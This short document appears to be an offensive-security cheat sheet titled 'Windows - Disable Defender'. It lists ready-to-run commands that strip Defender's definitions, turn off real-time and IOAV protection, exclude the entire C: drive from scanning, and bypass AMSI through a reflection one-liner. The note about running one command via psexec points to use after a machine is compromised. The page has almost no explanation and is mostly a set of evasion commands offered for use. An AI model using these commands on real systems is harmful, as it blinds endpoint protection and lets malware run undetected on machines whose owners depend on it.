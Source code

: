 # Windows - Disable Defender

```
"c:\program files\windows defender\mpcmdrun.exe" -RemoveDefinitions -All Set-MpPreference -DisableIOAVProtection $true
```

Disabling defender  and remove definitions with mpcmdrun.exe

```
Set-MpPreference -DisableRealtimeMonitoring $true
```

Disable Defender(causes alert on Desktop)(Can be run with psexec)

```
Add-MpPreference -ExclusionPath "c:\"
```

Add exclusion path to Defender

```
"[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonePublic,static').SetValue(,True)"
```

Turn off AMSI
